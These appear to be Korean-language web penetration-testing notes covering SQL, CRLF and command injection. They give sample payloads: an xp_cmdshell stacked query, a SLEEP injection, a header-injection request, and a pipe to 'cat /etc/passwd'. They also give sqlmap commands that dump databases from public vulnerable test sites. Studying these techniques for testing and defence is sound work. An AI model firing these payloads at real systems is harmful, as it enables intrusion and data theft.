   - `http://www.site.com/member/checkid.asp?id=';CREATE.....r.dbo.xp_cmdshell%20'netstat%20-an';`
### 5) 타임 기반 SQL Injection
- 쿼리 결과를 특정시간만큼 지연 시키는 것을 이용한 기법
- Blind 기법과 마찬가지로 에러가 발생되지 않는 조건에서 사용 가능
- ex
  - `http://testphp.vulnweb.com/listproducts.php?cat=1 AND SLEEP(5)`
- 포인트: 5초 뒤에 화면에 결과가 출력되면 취약점이 있는 것으로 판단

## 2. CRLF Injection
- CRLF: Carriage Return과 Line Feed -> 키보드의 엔터키와 동일한 기능
- URL 특정 파라미터에 해당 코드를 삽입하는 경우 임의의 헤더정보를 생성할 수 있는 취약점 발생
- ex
  - CRLF(`%0D%0A`), 스페이스(`%20`)
  ```
  GET /redir.php?url=%0D%0A%20New_Header:New_Header_Value%0D%0A
  HTTP/1.1
  Host: www.example.com
  ...
  ```
- 포인트: 응답코드 302번 및 Location 헤더에 삽입한 공격 문자열이 보이면 취약점 있는 것
```
HTTP/1.1 302 Found
Date: Tue, 23 Aug 2011 18:34:36 GMT
Server: Apache/1.3.33 (Win32) PHP/5.0.2 X-Powered-By: PHP/5.0.2
Location: NEW_Header: New_Header_Value ...
```

## 3. Command Injection
- GET, POST 요청필드, HTTP 헤더값, 쿠키값 등에 운영체제 명령어를 삽입하여 권한을 획득하는 공격
- ex
  - `/cgi/bin/shoppingcart.cgi?id=1020&page=|cat /etc/passwd&pid=A1023`
- 점검 방법: 매일 릴리즈 되는 취약점 정보를 활용하여 사용 중인 시스템의 취약점을 확인
- https://www.exploit-db.com/remote에서 Zero-day(최신 취약점)에 관련된 정보 제공
- 포인트: OS 명령어의 결과가 출력되면 취약점 있는 것

# 모의해킹 실전 2
## A1 - Injection
### SQL Injection
- 데이터베이스 조회: `python sqlmap.py -u "http://php.testsparker.com/artist?id=1" -p "id" --level=3 --risk=3 --threads=10 --dbs`
  - ![데이터베이스 조회 결과](./images/1.png)
- logs DB의 테이블명 알아보기: `python sqlmap.py -u "http://php.testsparker.com/artist?id=1" -p "id" --level=3 --risk=3 --threads=10 -D logs --tables --dump --hex`